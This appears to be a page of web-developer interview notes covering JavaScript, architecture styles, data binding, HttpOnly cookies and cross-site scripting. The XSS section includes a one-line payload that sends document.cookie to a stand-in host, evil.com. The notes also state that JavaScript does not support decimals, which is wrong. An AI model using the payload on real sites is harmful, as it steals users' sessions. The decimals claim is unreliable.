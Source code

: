 cons: 
It does not support decimals: 0.1 + 0.2 = 0.3. It does not have strict typing. Array is not always like what it seems. It's coding syntax is too relaxed sometimes, so you'd likely to bump into pitfalls sometimes.
 
### JavaScript follows which Programming Paradigm?

It is a mixture of object oriented programming and functional programing. 

### What are the pros and cons of monolithic vs microservice architectures?
monolithic
When everything is running through the same app, it’s easy to hook up components to those cross-cutting concerns.
There can also be performance advantages, since shared-memory access is faster than inter-process communication (IPC).
microservice
They can also have performance advantages depending on how they’re organized because it’s possible to isolate hot services and scale them independent of the rest of the app.

### What are two-way data binding and one-way data flow, and how are they different?

Two way data binding means that UI fields are bound to model data dynamically such that when a UI field changes, the model data changes with it and vice-versa.

One way data flow means that the model is the single source of truth

### HttpOnly cookie

Cookies are usually created by a server, passed to the browser and then passed back. Now it is possible to create and manipulate Cookies using JavaScript which can be helpful but can also be a security hole. So an HttpOnly Cookie is only accessible by the server, or in other words it is not accessible from client side JavaScript which protects your site from some forms of XSS attacks. So the Browser will store and return an HttpOnly Cookie but it will not alter it or allow you to create it on the client; an HttpOnly Cookie must be created on the server.

### What is XSS attack

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

Steal information

```
document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
```

Some browsers have implemented attempts at mitigating XSS and CSRF holes in websites, but these are heuristics looking for typical patterns of attacks. They are in no way complete.
